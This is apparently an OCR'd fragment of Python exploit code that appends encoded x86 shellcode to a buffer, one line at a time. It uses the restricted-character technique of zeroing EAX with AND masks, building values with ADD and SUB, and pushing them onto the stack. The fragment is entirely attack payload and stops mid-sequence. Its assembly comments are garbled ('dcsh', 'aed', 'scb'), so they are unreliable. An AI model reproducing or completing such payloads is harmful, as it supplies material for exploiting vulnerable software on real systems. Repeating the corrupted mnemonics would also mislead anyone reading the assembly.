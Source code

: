 ```python
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x21\x02\x11\x66" ## add  eax, 0x66110221
shellcode += "\x05\x10\x01\x10\x56" ## add  eax, 0x56100110
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x67\x16\x17\x31" ## add  eax, 0x31171667
shellcode += "\x05\x67\x15\x07\x31" ## add  eax, 0x31071567
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x53\x40\x72\x71" ## add  eax, 0x71724053
shellcode += "\x05\x52\x40\x71\x70" ## add  eax, 0x70714052
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x35\x50\x74\x16" ## add  eax, 0x16745035
shellcode += "\x05\x44\x40\x64\x15" ## add  eax, 0x15644044
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x44\x74\x62\x52" ## add  eax, 0x52627444
shellcode += "\x05\x44\x63\x51\x42" ## add  eax, 0x42516344
shellcode += "\x05\x34\x53\x32\x42" ## add  eax, 0x42325334
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x73\x23\x61\x62" ## add  eax, 0x62612373
shellcode += "\x05\x63\x14\x61\x61" ## add  eax, 0x61611463
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x02\x50\x51\x36" ## add  eax, 0x36515002
shellcode += "\x05\x01\x40\x41\x35" ## add  eax, 0x35414001
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x45\x76\x32\x32" ## add  eax, 0x32327645
shellcode += "\x05\x34\x65\x21\x21" ## add  eax, 0x21216534
shellcode += "\x05\x34\x53\x22\x22" ## add  eax, 0x22225334
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x17\x56\x14\x32" ## add  eax, 0x32145617
shellcode += "\x05\x17\x55\x14\x31" ## add  eax, 0x31145517
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x47\x25\x71\x52" ## add  eax, 0x52712547
shellcode += "\x05\x46\x25\x70\x52" ## add  eax, 0x52702546
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x53\x77\x37\x35" ## add  eax, 0x35377753
shellcode += "\x05\x43\x76\x36\x24" ## add  eax, 0x24367643
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x77\x12\x35\x13" ## add  eax, 0x13351277
```